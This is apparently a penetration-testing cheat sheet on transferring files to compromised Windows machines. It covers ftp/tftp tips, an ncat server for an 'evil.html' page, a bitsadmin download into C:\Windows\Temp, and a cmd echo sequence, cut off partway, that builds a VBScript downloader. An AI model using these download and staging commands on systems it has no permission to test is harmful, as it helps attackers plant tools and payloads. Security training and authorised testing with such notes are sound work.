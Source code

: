 - In Kali Linux there are many useful exe files in `/usr/share/windows-binaries`. If you can only do ftp/tft - use it once to transfer `nc.exe` (or `wget.exe`) - it'l be more convinient in the end
- Use `mode binary` in `ftp` and `tftp`
	- If you upload/download an exe file and after execution get error `This program cannot be run in DOS mode.` - that is probably because of wrong transfer mode
	- Some clients does not support `mode binary` (like some Microsoft `ftp` clients)
	- Try `tftp` instead of `ftp` 


## HTTP server methods

- python
	- `python3 -m http.server <port>`
	- `python -m SimpleHTTPServer <port>`
- php
	- `php -S <ip>:<port>`
- ncat
	- `ncat --keep-open -l -p <port> -c "printf 'HTTP/1.1 200 OK\r\n\r\n'; cat ~/evil.html"`


# Methods


## Bitsadmin

- **Server** setup - any HTTP server method
- **Client** commands in `cmd.exe`
```
bitsadmin /transfer n http://<ip_to_upload>/file.txt C:\Windows\Temp\file.txt
```

-------------------------------

## vbs (Visual Basic Script)

- **Server setup** in `bash`
	- via python
	```bash
	python -m SimpleHTTPServer 8090
	```
- **Client** commands in cmd.exe (change `<ip_address>`,`<file_name>`) to create **download** script
	```cmd
	echo strUrl = WScript.Arguments.Item(0) > wget.vbs
	echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
	echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
	echo Err.Clear >> wget.vbs
	echo Set http = Nothing >> wget.vbs
	echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
	echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
	echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
	echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
	echo http.Open "GET", strURL, False >> wget.vbs
	echo http.Send >> wget.vbs
	echo varByteArray = http.ResponseBody >> wget.vbs
	echo Set http = Nothing >> wget.vbs
	echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
	echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
	echo strData = "" >> wget.vbs
	echo strBuffer = "" >> wget.vbs